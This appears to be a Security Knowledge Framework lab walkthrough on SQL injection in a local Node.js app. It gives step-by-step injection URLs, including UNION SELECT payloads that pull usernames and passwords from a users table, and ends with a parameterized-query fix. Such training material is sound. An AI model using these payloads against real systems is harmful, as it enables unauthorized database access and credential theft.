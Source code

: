 # KBID 46 - SQLI

## Running the app nodeJs

First make sure nodejs and npm are installed on your host machine.
After installation, we go to the folder of the lab we want to practice.
"i.e /skf-labs/XSS, /skf-labs/RFI/" and run the following commands:

```
$ npm install
```

```
$ npm start
```

{% hint style="success" %}
Now that the app is running let's go hacking!
{% endhint %}

## Reconnaissance

### Step1

The first step is to identify parameters which could be potentially used in an SQL query to communicate with the underlying database. In this example we find that the "/home" method grabs data by pageID and displays the content.

![](../../.gitbook/assets/nodejs/SQLI/1.png)

```text
http://localhost:5000/home/1
```

### Step2

Now let's see if we can create an error by injecting a single quote

![](../../.gitbook/assets/nodejs/SQLI/2.png)

```text
http://localhost:5000/home/1'
```

By doing so the SQL query syntax is now faulty. This is due to the fact that the user supplied input is being directly concatenated into the SQL query.

```javascript
db.get(
  "SELECT pageId, title, content FROM pages WHERE pageId=" + req.params.pageId
);
```

### Step3

Now we can also use logical operators to determine whether we can actually manipulate the SQL statements.

We start with a logical operator which is false \(and 1=2\). The expected behaviour for injecting a false logical operator would be an error or 404.

![](../../.gitbook/assets/nodejs/SQLI/3.png)

```text
http://localhost:5000/home/1 and 1=2
```

After that we inject a logical operator which is true \(and 1=1\). This should result in the application run as intended without errors.

![](../../.gitbook/assets/nodejs/SQLI/4.png)

```text
http://localhost:5000/home/1 and 1=1
```

## Exploitation

Now that we know that the application is vulnerable for SQL injections we are going to use this vulnerability to read sensitive information from the database. This process could be automated with tools such as SQLMAP. However, for this example let's try to exploit the SQL injection manually.

### Step1

The UNION operator is used in SQL injections to join a query, purposely forged to the original query. This allows to obtain the values of columns of other tables. First we need to determine the number of columns used by the original query. We can do this by trial and error.

![](../../.gitbook/assets/nodejs/SQLI/5.png)

```text
http://localhost:5000/home/1 union select 1
```

This query results in an error, this is due to the fact that the original query started with 3 columns namely  
\* pageId  
\* title  
\* content

![](../../.gitbook/assets/nodejs/SQLI/6.png)

![](../../.gitbook/assets/nodejs/SQLI/7.png)

```text
http://localhost:5000/home/1 union select 1,2,3
```

Notice how "title" and "content" became placeholders for data we want to retrieve from the database

### Step 2

Now that we determined the number of columns we need to take an educated guess for the table we want to steal sensitive information from. Again we can see if we try to query a non existent table we get an error. For a correct table we see the application function as intended.

![](../../.gitbook/assets/nodejs/SQLI/8.png)

```text
http://localhost:5000/home/1 union select 1,2,3 from user
```

![](../../.gitbook/assets/nodejs/SQLI/9.png)

```text
http://localhost:5000/home/1 union select 1,2,3 from users
```

![](../../.gitbook/assets/nodejs/SQLI/10.png)

```text
http://localhost:5000/home/1 union select 1,username,password from users
```

## Mitigation

SQL Injection can be prevented by following the methods described below:

Primary Defenses:

First step: White-list Input Validation\
Second step: Use of Prepared Statements (Parameterized Queries)\

Additional Defenses:

Also: Enforcing Least Privilege\
Also: Performing Allow-list Input Validation as a Secondary Defense

In this case, we have presented a SQLi code fix by using parameterized queries (also known as prepared statements) instead of string concatenation within the query.

The following code is vulnerable to SQL injection as the user input is directly concatenated into query without any form of validation:
PATH:/SQLI/models/sqlimodel.py

```javascript
db.get(
  "SELECT pageId, title, content FROM pages WHERE pageId=" + req.params.pageId
);
```

This code can be easily rewritten in a way that prevent the user input from interfering with the query structure:

```javascript
db.get("SELECT pageId, title, content FROM pages WHERE pageId=?", [
  req.params.pageId,
]);
```

Can you try to implement input validation or escaping?

## Additional sources

Please refer to the OWASP testing guide for a full complete description about SQL injection with all the edge cases over different platforms!

{% embed url="https://owasp.org/www-community/attacks/SQL_Injection" %}

SQLite Reference

{% embed url="https://www.sqlitetutorial.net/sqlite-nodejs/query/" %}
